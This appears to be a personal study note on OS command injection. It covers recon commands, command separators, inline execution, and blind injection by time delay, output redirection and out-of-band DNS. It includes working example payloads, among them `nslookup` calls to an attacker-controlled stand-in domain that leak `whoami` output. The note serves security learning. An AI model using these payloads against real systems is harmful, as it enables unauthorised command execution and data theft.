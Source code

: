 # Injecting OS commands

## Useful commands

|Purpose of command|Linux|Windows|
|---|---|---|
|Name of current user|`whoami`|`whoami`|
|Operating system|`uname -a`|`ver`|
|Network configuration|`ifconfig`|`ipconfig /all`|
|Network connections|`netstat -an`|`netstat -an`|
|Running processes|`ps -ef`|`tasklist`|

## Ways of injecting

- **command separators**
	- <mark style="background: #BBFABBA6;">windows and linux</mark>:
	  -  `&`
	  - `&&`
	  - `|`
	  - `||`
	- <mark style="background: #FFF3A3A6;">Unix-based systems only</mark>:
		- `;`
		- Newline (`0x0a` or `\n`)

- **inline execution** of another injected command (<mark style="background: #FFF3A3A6;">unix-based only</mark>)
  -  `` `x` `` 
  -  ` $(x) `

- the difference between *shell character's behavior* can cause different impact → in-band / blind 
- input apears in *quoted context* (using `"` or `'`) → terminate befrore inject

## Basic

- Use command seprators + command to retrive data. [[OLD/WEB/vulnerabilities/Command Injection/payload#basic|example]]

# Blind 

-  the application does not return the output from the command within its _HTTP response_.
## by using time delays

- _ping_ command 
	- ex:  `& ping -c 10 127.0.0.1 &` [[OLD/WEB/vulnerabilities/Command Injection/payload#using time delays|payload]]
## by redirecting output

- `>` , `>>`
	- ex: `& whoami > /var/www/static/whoami.txt &` [[OLD/WEB/vulnerabilities/Command Injection/payload#by redirecting output|payload]]

## by using out-of-band (OAST)

- *`nslookup`* + inline execution+ a *domain* which the attacker controls: [[OLD/WEB/vulnerabilities/Command Injection/payload#by using out-of-band (OAST)|payload]]
	- ex: `& nslookup kgji2ohoyw.web-attacker.com &`
	- ex: ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` => `wwwuser.kgji2ohoyw.web-attacker.com`
